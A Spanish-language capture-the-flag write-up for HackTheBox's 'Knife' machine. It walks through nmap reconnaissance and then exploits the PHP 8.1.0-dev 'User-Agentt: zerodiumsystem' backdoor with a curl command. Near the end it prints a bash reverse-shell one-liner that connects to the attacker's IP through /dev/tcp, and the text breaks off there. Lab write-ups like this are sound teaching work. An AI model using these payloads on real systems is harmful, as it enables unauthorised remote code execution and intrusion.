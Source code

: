 Knife es una máquina linux de nivel fácil, creada por MrKN16H7, en la que vamos a explotar un bug de PHP para conseguir una RCE y ejecutar un binario como root para convertirnos en él.

imagen

Según los seres vivos que hay por HackTheBox, la máquina es así:

imagen

Muy CTF(y es así)

1 - Reconocimiento inicial 2 - Reconocimiento profundo 3 - Explotación
[Reconocimiento inicial] {#recon}

# Nmap 7.92 scan initiated Fri Aug 27 20:20:39 2021 as: nmap -p- --open --min-rate 3000 -sS -Pn -n -v 10.10.10.242 -oG ports -oN ports.nmap
Nmap scan report for 10.10.10.242
Host is up (0.30s latency).
Not shown: 51068 closed tcp ports (reset), 14465 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Aug 27 20:21:14 2021 -- 1 IP address (1 host up) scanned in 34.80 seconds

Pequeña explicación de los parámetros de nmap

    -p-: Escanea todos los puertos.
    --open: Solo muestra los que están abiertos.
    --min-rate: Envía un mínimo de paquetes por segundo para que vaya más rápido, con un número muy alto, como 10000, puede dar falsos positivos o negativos.
    -sS: TCP SYN Port Scan, agiliza un poco el escaneo ya que no espera a que se complete el Three-Way Handshake.
    -Pn: Deshabilita el descubrimiento de host mediante pings a la máquina para comprobar si está activa.
    -n: Deshabilita la resolución DNS
    -v: Muestra los puertos a medida que los descubre
    -oG: Guarda el escaneo de nmap en diferentes formatos, -oG lo guarda en formato grepeable, para luego usar la función extractPorts de s4vitar
    -oN: Guarda el escaneo como aparece por consola.

Los puertos abiertos son el 22, para obtener una shell segura(SSH), y 80, que hostea un servidor HTTP.
[Reconocimiento profundo] {deeprecon}

Ahora que tenemos los puertos abiertos de la máquina, vamos a enumerarlos(de forma básica) y a detectar la versión y servicio que corren.

❯ nmap -sCV -p22,80 10.10.10.242 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2021-08-28 15:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds

Explotación {#exploit}

Si vamos a la página web, lo primero que encontramos es esto, un servidor Apache con PHP 8.1:

imagen

Si buscamos exploits para la versión de Apache que corre no encontramos nada, en cambio, si buscamos exploits para la versión de PHP que corre, encontramos uno muy interesante que nos permite ejecutar código mediante la cabecera User-Agentt: zerodiumsystem("[comando]"); en la petición.

    An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.

https://flast101.github.io/php-8.1.0-dev-backdoor-rce/

Esto se puede hacer de tres formas: con un script automatizado para ello, con cURL mediante el parámetro -H o interceptando la petición con BurpSuite y añadiendo esta cabecera.
Explotación con cURL

cURL tiene el parámetro -H, mediante el cual le puedes asignar más cabeceras a tu petición si son necesarias, entonces si le añadimos la cabecera User-Agentt: zerodiumsystem("[comando]"); podríamos ejecutar comandos a nivel de sistema en la máquina. El comando sería así:

❯ curl -s -H 'User-Agentt: zerodiumsystem("whoami");' 10.10.10.242 | grep -i doctype -B 1 | grep -v -i doctype

Le he añadido grep para ver únicamente el resultado del comando, que se encuentra al principio del código de la página web.
Explotación con BurpSuite

Con BurpSuite hay que interceptar la petición hacia la página web, y modificarla con la misma cabecera de antes. Es recomendable pasar la petición al Repeater con Ctrl + R para poder modificarla como quieras y sin tener que recargar la página cada vez que vayas a ejecutar el comando.
Conseguir una Reverse Shell

Ahora solo habría que ejecutar la Reverse Shell de siempre, si no la sabes es:

bash -i &> /dev/tcp/tuip/puertoEnElQueTienesNC 0&>1
